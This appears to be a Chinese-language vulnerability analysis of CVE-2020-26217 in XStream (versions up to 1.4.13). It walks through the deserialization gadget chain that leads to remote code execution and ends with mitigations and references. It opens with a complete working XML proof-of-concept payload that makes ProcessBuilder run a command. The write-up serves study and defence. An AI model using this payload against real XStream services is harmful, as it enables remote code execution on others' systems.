








# CVE-2020-26217
- [CVE-2020-26217](#cve-2020-26217)
  - [影响版本](#影响版本)
  - [漏洞分析](#漏洞分析)
    - [MapConverter](#mapconverter)
    - [Base64Data](#base64data)
    - [DataSource](#datasource)
    - [FilterIterator](#filteriterator)
    - [ImageIO$ContainsFilter](#imageiocontainsfilter)
    - [调用链](#调用链)
  - [修复方式](#修复方式)
  - [参考](#参考)

## 影响版本
Xstream <= 1.4.13  
POC:
```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```
## 漏洞分析
从`TreeUnmarshaller.start`开始解析xml,从最外面的`<map>`标签开始,`map`的实现类从`mapper.defaultImplementationOf`中获取为`HashMap`类,而对应的`convert`转换器为`MapConverter`.

### MapConverter
`MapConverter`用于将`java.util.Map`和XML进行相互转换,在`map`标签下的`entry`元素指定对应的键值即可,在POC中指定的键为一个`jdk.nashorn.internal.objects.NativeString`对象,而值为`test`.

然后进入`AbstractReferenceUnmarshaller.convert`中进行了一些将当前标签压栈缓存的操作之后,继续调用其父类的`convert`.

在父类的`convert`中将类型`HashMap`缓存一下就进入到`MapConverter`中进行解析,在`Mapconvert`中调用`createCollection`创建了一个空的`Map`对象,然后调用`populateMap`方法来填充,然后开始读取`<Entry>`节点得到键值对象放入`Map`中,调用关系如下.

在调用`put`将键值放入map中会计算其key的hash.

而在`hash`中则会调用key的`hashcode()`方法,也就是`NativeString`的`hashcode`方法.

在`NativeString`的`hashcode`中调用了`getStringValue().hashcode()`.

### Base64Data
而在`getStringValue()`中则返回`NativeString`的values,也
就是`Base64Data.toString()`.

在`toString()`中又先调用了`this.get()`,在`get()`中将`dataHandler`中的`DataSource()`通过`readFrom`放入了一个字节数组中.

### DataSource
而此时的`DataSource`内容如POC一样如下

在`readFrom`中调用了`is.read`,而此时的`is`则为poc中指定的`java.io.SequenceInputStream`顺序输入流.

在输入流`in.read`方法中循环读取时调用`nextStream`,而在该方法中读取了`e`的节点,而此处的e即为poc中`e`标签指定的`javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator`.

在读取`javax.swing.MultiUIDefaults`节点时又会继续调用其下的`iterator.next()`读取`iterator`节点,而此时的`iterator`值为我们可控的`javax.imageio.spi.FilterIterator`

### FilterIterator
进入到`FilterIterator.next()`中调用了其`advance()`方法.

而该对象的`iter`和`filter`均可控,分别为我们poc中的`java.util.ArrayList$Itr`和`javax.imageio.ImageIO$ContainsFilter`.

### ImageIO$ContainsFilter
然后循环读取`iter`节点的值分别调用`filter.filter`.而在`ImageIO$ContainsFilter`这个filter中的filter方法则是使用了反射来返回了一个`contains`,而反射参数均可控,最后造成了RCE.

### 调用链
完整调用链如下:

总体思路即`MapConverter`中在将指定的键放入map中时会计算键名的Hash,其中会调用到键的toString()方法,而`Base64Data`类的toString()的方法中通过迭代来读取其对应的属性,当设置迭代器为`ImageIO$ContainsFilter`时,该类调用了反射的方式生成对应的容器,而反射的参数均可控造成漏洞.
## 修复方式
1. 使用官方的安全框架白名单.
2. 将javax.imageio.ImageIO$ContainsFilter手动添加到黑名单中.
## 参考
https://x-stream.github.io/CVE-2020-26217.html  
https://xz.aliyun.com/t/8526